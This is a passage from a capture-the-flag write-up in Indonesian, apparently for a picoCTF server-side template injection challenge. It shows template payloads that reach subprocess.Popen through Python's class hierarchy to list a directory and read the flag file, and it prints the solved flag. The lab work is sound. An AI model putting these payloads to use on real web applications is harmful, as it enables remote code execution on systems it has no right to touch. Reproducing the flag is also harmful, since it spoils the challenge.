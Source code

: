 Hasilnya adalah daftar panjang berisi ratusan kelas, yang kemudian bisa kita cari untuk 'alat' berbahaya seperti subprocess.Popen untuk RCE."
<br><br>

<img width="1847" height="731" alt="image" src="https://github.com/user-attachments/assets/1f03f1e1-3134-42bb-8c4d-542480a92955" />
Next target yang akan dicari adalah _subprocess.Popen_ untuk menjalankan RCE dan dari situ nanti kita bisa coba "ls" untuk cek list isi direktori dan jika bertemu "flag" bisa kita "cat" untuk baca flagnya. Untuk mencari _subprocess.Popen_ aku melakukan slicing list dan berhasil menemukan di index ke 356

```
// ini  index dari subprocess.Popen
{{ ''.__class__.__mro__[1].__subclasses__()[356] }}

// ini untuk cek list dari direktorinya
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate()[0] }}
```
Coba inject dan akan ada beberapa list file
<br><br>
<img width="708" height="195" alt="image" src="https://github.com/user-attachments/assets/4ebcd05a-058a-4a93-9e7d-b41665576e0d" />

Contoh disini kita berhasil menemukan flagnya. Hanya perlu satu command lagi untuk RCE nya

```
{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate()[0] }}
```
Dan kita berhasil dapat flagnya: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}**
